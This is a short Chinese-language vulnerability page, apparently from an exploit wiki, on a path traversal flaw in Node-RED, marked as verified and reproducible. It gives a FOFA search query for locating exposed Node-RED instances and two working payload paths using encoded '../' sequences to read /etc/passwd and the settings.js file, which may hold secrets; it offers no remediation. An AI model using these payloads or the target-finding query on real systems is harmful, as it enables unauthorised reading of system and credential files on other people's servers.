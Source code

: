 <languages />

<center>
|:-:|:-:|
|![](Check.png "Check.png")|**该漏洞已通过验证**

* * * * *

<small>本页面的EXP/POC/Payload经测试可用，漏洞已经成功复现。</small>|

</center>
漏洞影响
--------

Node-RED

FOFA
----

    title="Node-RED"

POC
---

    /ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
    /ui_base/js/..%2f..%2f..%2f..%2fsettings.js

参考
----

<https://mp.weixin.qq.com/s/KRGKXAJQawXl88RBPTaAeg>